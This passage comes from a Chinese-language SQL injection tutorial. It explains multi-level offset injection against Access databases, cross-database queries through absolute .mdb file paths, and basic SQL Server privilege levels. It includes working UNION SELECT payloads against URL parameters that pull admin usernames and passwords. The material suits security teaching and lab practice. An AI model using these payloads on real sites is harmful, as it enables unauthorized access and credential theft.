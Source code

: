   在这里我们解释一下，为什么1级偏移注入并没有爆出我们想要的字段值呢
  我们可以进行2级(多级)偏移注入（即通过admin表的自连接使得sql语句中“ * ”所代表的的字段数增大，那么联合查询中用于充数字段就会减小，这样的话，admin表中的数据自然会向前移动了）
* 二级偏移注入：
  根据公式我们可以计算出：联合查询补充字段数 = 22-6x2 = 10
  `?id=1513 union select 1,2,3,4,5,6,7,8,9,10, * from (admin a inner join admin b on a.id=b.id)`
  经过2级偏移注入，我们成功的将admin表的数据向前移动了6个字段，使其原本在17号字段及其之后才显现出的数据，变为了在11号字段及其之后就可回显而出。而此时admin表的password字段和count_time字段恰好处于显示位13和15上，于是就自然而然的暴露了出来。
  由于admin表进行了一次自连接，使得payload中from关键字后面的表由原有的 “admin表” 变成了：由“先让admin自己做笛卡尔积然后挑选id值相等的记录”组成的表。这样的话，payload中的“ * ”就由原来所代表的 “admin表” 中的6个字段，变为了现在所代表的 “admin自连接表” 的12个字段，又由于union关键字的使用，要求union关键字后面select查询的字段数必须要等于前面select查询的字段数，所以union关键字后面的select中用于充数的字段由原来的22-6=16变为了22-12=10个字段，因此由于充数的字段变少了，那么admin表的数据自然的就可以向前移动了。
  *请注意：admin表中的数据向前移动的字段数只能是admin表（即目标表）字段数的整数倍（这是由表自连接的特性所决定的*
* 三级偏移注入：
  向前逐个删除差值个数后，查询语句后加上 `from （（admin as a inner join admin as b on a.id=b.id）inner join admin as c on a.id=c.id）`，爆出第三个数据
  微调payload
  `?id=1513 union select top 1 1,2,3,4,5,6,7,8,9,10,b.id, * from (admin a inner join admin b on a.id=b.id)`
  根据页面返回的数据，我们可以看到，在第13号显示位我们成功的爆出了admin字段的第一个值:admin




## 跨库查询
### （1）跨库查询条件
* 条件:同服务器下的站点有注入,知道对方站的数据库绝对路径，知道对方数据库表，表中的字段名可以用这个方法来跨库查询.
* a是目标站点 b是存在注入的站点 a,b是同服务器的站点
* admin为数据库中的表，user为数据库中admin表的段，password为数据库中admin表的段.
```
http://xxx.com/news/type.asp?type?id=1 and 1=2 union select 1,2,user,4,5,6 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:81/0/Production/PRODUCT_DETAIL.asp?id=1451 union select 1,2,username,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22 from [D:\wwwroot\1\Databases\xycms.mdb].admin

http://127.0.0.1:99/0/Production/PRODUCT_DETAIL.asp?id=-1513%20UNION%20SELECT%201,2,admin,4,5,6,7,8,9,10,11,12,13,14,password,16,17,18,19,20,21,22%20from%20admin_user%20in%20'C:\Users\Seven\Desktop\webpentest\1\xydata\xycms.mdb'
```



# SqlServer数据库注入
## SqlServer数据库
### （1）SqlServer数据库介绍
* 中小型企业使用，access数据库不能处理数据库大小大于100M的，所以SqlServer可以处理
```
aspx+sqlserver
asp+sqlserver
sp+sqlserver
```
### （2）Sqlserver服务
* 1433端口是开启的。当我们关闭服务后，端口也将关闭。
* 后缀 cracer.mdf ，日志文件后缀 cracer_log.ldf
### （3）Sqlserver数据库权限
* sa权限：数据库操作，文件管理，命令执行，注册表读取等
* db权限：文件管理，数据库操作
* public权限：数据库操作
  *默认开放远程连接，1433端口连接，默认是sa用户权限（即最高权限）*
### （4）kali远程连接MSSql
